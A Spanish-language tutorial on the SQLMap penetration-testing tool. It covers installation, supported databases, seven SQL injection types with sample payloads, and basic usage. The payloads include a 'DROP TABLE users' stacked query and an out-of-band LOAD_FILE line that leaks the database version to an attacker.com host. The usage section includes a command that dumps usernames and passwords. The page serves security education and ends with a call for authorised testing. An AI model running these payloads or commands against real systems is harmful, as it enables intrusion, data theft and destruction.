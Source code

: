 ### **SQLMap: Herramienta para la Detección y Explotación de Inyecciones SQL**

#### **¿Qué es SQLMap?**

SQLMap es una herramienta gratuita y de código abierto escrita en Python para realizar pruebas de penetración. Su objetivo es automatizar la detección y explotación de vulnerabilidades de inyección SQL (SQLi). Fue desarrollada en 2006 y sigue siendo mantenida activamente.

#### **Características Principales**

- **Motor de detección potente:** SQLMap identifica y explota una amplia gama de vulnerabilidades SQL.
- **Opciones avanzadas:** Configuración detallada para conexión, detección, enumeración, optimización, y bypass de protecciones.
- **Capacidades adicionales:**
    - Recuperación de datos de bases de datos.
    - Acceso al sistema de archivos.
    - Ejecución de comandos del sistema operativo.

---

### **Instalación de SQLMap**

SQLMap generalmente está preinstalado en distribuciones orientadas a la seguridad (como Kali Linux) y puede instalarse en Debian usando:

```bash
sudo apt install sqlmap
```

**Instalación manual:**

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python sqlmap.py
```

---

### **Bases de Datos Compatibles**

SQLMap soporta una amplia gama de sistemas de gestión de bases de datos (DBMS), incluyendo:

- **Populares:** MySQL, PostgreSQL, Oracle, Microsoft SQL Server, SQLite.
- **Otros:** IBM DB2, MariaDB, Firebird, Amazon Redshift, CockroachDB, SAP MaxDB, entre otros.

---

### **Tipos de Inyección SQL Soportados**

SQLMap puede detectar y explotar todos los tipos de inyección SQL conocidos. Los métodos más comunes son:

#### **1. Boolean-based Blind SQL Injection**

- **Principio:** Se determina si una consulta SQL devuelve un valor _TRUE_ o _FALSE_ comparando las respuestas del servidor.
- **Ejemplo:**
    
    ```sql
    AND 1=1
    ```
    
- Es el tipo de inyección más común en aplicaciones web.

#### **2. Error-based SQL Injection**

- **Principio:** Se aprovechan los mensajes de error devueltos por el DBMS para extraer datos.
- **Ejemplo:**
    
    ```sql
    AND GTID_SUBSET(@@version,0)
    ```
    
- Este método es rápido pero está limitado a los datos devueltos por cada solicitud.

#### **3. UNION Query-based SQL Injection**

- **Principio:** Permite combinar resultados de consultas adicionales con la consulta original.
- **Ejemplo:**
    
    ```sql
    UNION ALL SELECT 1,@@version,3
    ```
    
- Es el método más rápido, ya que permite extraer datos completos en una sola solicitud.

#### **4. Stacked Queries**

- **Principio:** Inyección de múltiples consultas SQL en una sola ejecución.
- **Ejemplo:**
    
    ```sql
    ; DROP TABLE users
    ```
    
- Utilizado para ejecutar comandos avanzados, como manipulación de datos o ejecución de comandos del sistema operativo.

#### **5. Time-based Blind SQL Injection**

- **Principio:** Determina si una consulta es _TRUE_ o _FALSE_ midiendo el tiempo de respuesta del servidor.
- **Ejemplo:**
    
    ```sql
    AND 1=IF(2>1,SLEEP(5),0)
    ```
    
- Es más lento que Boolean-based Blind SQLi pero útil cuando no hay otra forma de obtener respuestas.

#### **6. Inline Queries**

- **Principio:** Inserta una consulta dentro de otra.
- **Ejemplo:**
    
    ```sql
    SELECT (SELECT @@version) from dual
    ```
    
- Este tipo es menos común y requiere aplicaciones escritas de una manera específica.

#### **7. Out-of-band SQL Injection**

- **Principio:** Utiliza canales como DNS o HTTP para exfiltrar datos cuando otros métodos no son viables.
- **Ejemplo:**
    
    ```sql
    LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
    ```
    
- SQLMap puede realizar exfiltración DNS mediante subdominios que contienen la respuesta SQL deseada.

---

### **Uso Básico de SQLMap**

1. **Ejecutar una prueba simple:**
    
    ```bash
    python sqlmap.py -u 'http://target.com/page.php?id=5'
    ```
    
2. **Especificar técnicas de inyección SQL:**
    
    ```bash
    python sqlmap.py -u 'http://target.com/page.php?id=5' --technique=BU
    ```
    
    Donde:
    - `B`: Boolean-based blind.
    - `U`: Union query-based.
3. **Extraer datos de una tabla específica:**
    
    ```bash
    python sqlmap.py -u 'http://target.com/page.php?id=5' --dump -T users -C username,password
    ```
    

---

### **Conclusión**

SQLMap es una herramienta esencial para la detección y explotación de inyecciones SQL, capaz de manejar múltiples tipos de inyección y DBMS. Al usar SQLMap, es importante hacerlo de forma ética y responsable, asegurándose de tener el permiso necesario para probar los sistemas objetivo.